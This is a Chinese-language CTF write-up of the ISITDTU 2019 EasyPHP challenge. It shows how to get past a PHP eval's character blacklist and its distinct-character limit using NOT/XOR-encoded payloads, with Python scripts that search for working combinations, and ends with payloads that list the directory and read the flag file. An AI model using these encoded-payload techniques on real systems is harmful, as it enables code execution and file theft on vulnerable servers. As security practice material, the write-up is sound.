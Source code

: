 ```yaml
---
title: '[ISITDTU 2019]EasyPHP'
date: 2024-07-25 19:01:11
tags: 
      - 题解
      - rce
categories: 刷题笔记
---
```


## [ISITDTU 2019]EasyPHP(无字母字符rce进阶)

我们进行代码审计

```
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>

```

第一个if的正则匹配我们可以放到https://regex101.com/这个网站去分析

具体来说就是

<!--more-->

```
\x00- 0-9                       匹配\x00到空格(\x20)，0-9的数字
'"`$&.,|[{_defgops              匹配这些字符
\x7F                            匹配DEL(\x7F)字符
```

排除后我们能使用的字符为

```
!#%()*+-/:;<=>?@ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~
```

第二个if限制了提交字符的种类

count_char(),当mode=3: 会返回包含所有用过的不同字符的字符串

![image-20250401145647231](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504011456333.png)

所以字符串的字符种类不能超过13种

通过大佬博客上的脚本，我们来看那些函数可以被使用

```
$array=get_defined_functions();//返回所有内置定义函数
foreach($array['internal'] as $arr){
    if ( preg_match('/[\x00- 0-9\'"\`$&.,|[{_defgops\x7F]+/i', $arr) ) continue;
    if ( strlen(count_chars(strtolower($arr), 0x3)) > 0xd ) continue;
    print($arr.'<br/>');
}

//运行结果
bcmul
rtrim
trim
ltrim
chr
link
unlink
tan
atan
atanh
tanh
intval
mail
min
max
virtual

```

并没有发现我们需要的函数，由于没有过滤~和^，我们考虑使用取反绕过

我们先异或phpinfo()尝试

其实~P=0x8f^0xFF

```
<?php
$a="phpinfo";
echo urlencode(~$a);

//%8F%97%8F%96%91%99%90
```

![image-20240804213355256](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042134424.png)

成功绕过

我们查看disable_functions，发现所有的命令执行的函数都被禁了。我们需要找到flag文件，我们可以使用scandir()或者glob()列目录，但它返回一个数组，我们还需要一个print_r或var_dump

```
print_r(scandir('.'));
```

我们进行暴力异或

```
final_string="print_r(scandir('.'));"
allowed="!#%()*+-/:;<=>?@ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~"
for a in final_string:    
    for i in allowed:
        for p in allowed:
            if ord(i)^ord(p)==ord(a):
                print("i=%s p=%s a=%s"%(hex(ord(i)),hex( ord(p)),hex(ord(a)))))

```

整理一下就变成了

```
print_r(scandir('.'));==((%8f%8d%96%91%8b%a0%8d)^(%ff%ff%ff%ff%ff%ff%ff))(((%8c%9c%9e%91%9b%96%8d)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff));

```

但当我们运行时，第二个if语句报错了，原因是我们一共用了16个不同字符，下一步是缩减字符数

```
result2 = [0x8b, 0x9b, 0xa0, 0x9c, 0x8f, 0x91, 0x9e, 0xd1, 0x96, 0x8d, 0x8c]  # Original chars,11 total
result = [0x9b, 0xa0, 0x9c, 0x8f, 0x9e, 0xd1, 0x96, 0x8c]  # to be deleted
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if a == b == c == d:
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)

```

除了必要的()^;以外，我们最多剩余9个字符的空间，逐步删除result里的值，当结果仍能保持11个，就意味着我们可以继续删除了

```
print_r(scandir(.));=((%9b%9c%9b%9b%9b%9b%9c)^(%9b%8f%9b%9c%9c%9b%8f)^(%8f%9e%96%96%8c%a0%9e)^(%ff%ff%ff%ff%ff%ff%ff))(((%9b%9b%9b%9b%9b%9b%9c)^(%9b%9b%9b%9c%a0%9b%8f)^(%8c%9c%9e%96%a0%96%9e)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff));

```

![image-20240804220158064](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042201143.png)

发现flag所在目录

我们需要进行读取，我们使用show_source或者readfile,flag文件在数组的最后面，我们使用end()获取文件名

```
show_source(end(scandir(.)));
```

```
result2 = [160, 136, 138, 140, 141, 144, 145, 209, 150, 151, 154, 155, 156, 158]  # Original chars,14 total
result = [160, 136, 141, 209, 151, 154, 155, 156]
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if (a == b == c == d) or (a==b) or (b==c) or (c==d) or(a==c):
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)

```

```
show_source(end(scandir(.)));=((%8d%9c%97%a0%88%8d%97%8d%9c%a0%a0)^(%9a%97%9b%88%a0%9a%9b%9b%8d%9c%9a)^(%9b%9c%9c%a0%88%9b%9c%9c%9c%a0%a0)^(%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff))(((%a0%97%8d)^(%9a%9a%9b)^(%a0%9c%8d)^(%ff%ff%ff))(((%8d%a0%88%97%8d%9b%9c)^(%9a%9c%8d%9a%9b%9a%8d)^(%9b%a0%9b%9c%8d%97%9c)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff)));

```

获得flag

![image-20240804220429051](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042204204.png)

